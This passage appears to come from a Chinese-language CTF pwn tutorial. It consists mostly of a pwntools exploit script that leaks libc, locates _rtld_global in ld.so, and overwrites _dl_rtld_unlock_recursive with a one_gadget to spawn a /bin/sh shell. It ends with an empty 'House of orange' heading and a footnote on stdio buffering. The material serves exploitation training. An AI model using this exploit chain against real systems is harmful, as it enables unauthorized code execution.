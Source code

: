 ```python

p.recvuntil("gift ")
sleep_addr = int(p.recv(14),16)
log.info("sleep_addr:"+hex(sleep_addr))
libc_base = sleep_addr-libc.sym['sleep']
log.info("libc_base:"+hex(libc_base))

ld_base = libc_base+offset_ldbase_of_libcbase
log.info("ld_base:"+hex(ld_base))
rtld_global = ld_base+ld.sym['_rtld_global']
log.info("rtld_global:"+hex(rtld_global))
dl_rtld_lock_recursive = rtld_global+offset_dl_rtld_lock_recursive_of_rtld_global
log.info("dl_rtld_lock_recursive:"+hex(dl_rtld_lock_recursive))
dl_rtld_unlock_recursive = rtld_global+offset_dl_rtld_unlock_recursive_of_rtld_global
log.info("dl_rtld_unlock_recursive_of_rtld_global:"+hex(dl_rtld_unlock_recursive))

onegadget = libc_base+0x4f322

'''
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

#gdb.attach(p,"b *$rebase(0x964)")

for i in range(5):
	#p.send(p64(dl_rtld_lock_recursive+i))
	p.send(p64(dl_rtld_unlock_recursive+i))
	p.send(p64(onegadget)[i])

p.sendline("exec 1>&0")

p.interactive()
```



## House of orange

### 概述


[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）